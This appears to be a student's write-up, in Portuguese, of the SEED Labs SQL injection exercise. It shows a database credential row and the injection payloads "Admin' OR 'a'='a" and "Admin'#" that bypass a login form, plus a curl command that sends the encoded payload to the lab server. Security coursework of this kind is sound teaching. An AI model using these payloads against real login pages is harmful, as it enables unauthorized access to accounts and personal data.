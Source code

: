 # Trabalho realizado nas Semana #8 e #9

## **Seed Labs**

## Tarefa 1

```
    mysql> select * from credential where Name = "Alice";
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    | ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    |  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
    +----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
    1 row in set (0.01 sec)

    mysql> 
```

## Tarefa 2
### Tarefa 2.1
Colocando "Admin' OR 'a'='a" no username vai alterar a query fazendo com que a condição seja sempre verdadeira. A query será assim:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin' or 'a'='a' and Password='';
```

![login](login.png)

![info](details.png)

Uma alternativa mais simples é colocar "Admin'#" no username, o que fará com que o que vem depois do '#' seja apenas um comentário, o que faz com que a condição seja verdadeira em name = 'Admin'. A nova query será então:

```sql
    SELECT id, name, eid, salary, birth, ssn, address, email,
    nickname, Password
    FROM credential
    WHERE name= 'Admin'#' and Password='';
```

![login2](login2.png)

### Tarefa 2.2

http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=

```
    curl 'http://www.seed-server.com/unsafe_home.php?username=Admin%27%23&Password=' > index.html
```

abrindo o index.html no browser, obtemos:

![info](details2.png)


